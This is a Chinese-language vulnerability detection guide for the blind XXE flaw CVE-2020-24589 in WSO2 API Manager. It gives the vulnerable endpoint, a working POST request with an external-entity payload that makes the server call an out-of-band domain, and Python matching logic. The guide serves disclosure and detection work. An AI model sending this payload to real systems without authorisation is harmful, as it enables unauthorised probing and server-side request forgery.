 # WSO2 API Manager <=3.1.0 XXE盲注漏洞（CVE-2020-24589）检测说明

## 漏洞简介

WSO2 API Manager 3.1.0及以下版本存在盲XML外部实体注入（Blind XXE）漏洞。攻击者可通过构造恶意XML数据包，诱使服务器解析外部实体，进而访问服务器敏感文件或与内网/外部系统交互，造成信息泄露、拒绝服务或SSRF等危害。

## 影响范围

- 产品：WSO2 API Manager
- 影响版本：<= 3.1.0
- CVE编号：CVE-2020-24589
- 危害等级：Critical

## 漏洞原理

/carbon/generic/save_artifact_ajaxprocessor.jsp接口未对XML实体进行安全处理，攻击者可通过payload参数注入外部实体定义，诱使服务器发起对外部URL的请求，实现盲XXE攻击。

## 利用方式与攻击流程

1. 攻击者构造带有外部实体的XML数据包，payload中包含指向OAST平台（如interactsh）的URL。
2. 服务器端解析XML时加载外部实体，向OAST平台发起HTTP请求。
3. 攻击者通过OAST平台接收到请求，确认漏洞存在。
4. 响应体返回特定错误信息，辅助判定。

## 探测原理与流程

### 探测请求的构造

```http
POST /carbon/generic/save_artifact_ajaxprocessor.jsp HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

payload=<?xml version="1.0" ?><!DOCTYPE a [ <!ENTITY % xxe SYSTEM "http://<oast域名>">%xxe;]>
```

- payload参数注入外部实体，尝试让服务器请求OAST域名。

### 预期响应与交互

- OAST平台收到来自目标的HTTP请求（协议为http）。
- 响应体包含`Failed to install the generic artifact type`。

### 判定逻辑

```python
def is_vulnerable(interactsh_result, response):
    if 'http' in interactsh_result['protocol'] and 'Failed to install the generic artifact type' in response.text:
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[发送带XXE payload的POST请求] --> B[OAST平台接收请求]
    B --> C[接收HTTP响应]
    C --> D{OAST平台收到http请求且响应含特征内容?}
    D -- 否 --> F[非漏洞]
    D -- 是 --> G[判定存在盲XXE漏洞]
```

## 参考链接

- [WSO2官方安全通告](https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2020-0742)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2020-24589)
- [ARPSyndicate模板](https://github.com/ARPSyndicate/kenzer-templates)
- [WSO2-CVE-Extractor](https://github.com/athiththan11/WSO2-CVE-Extractor) 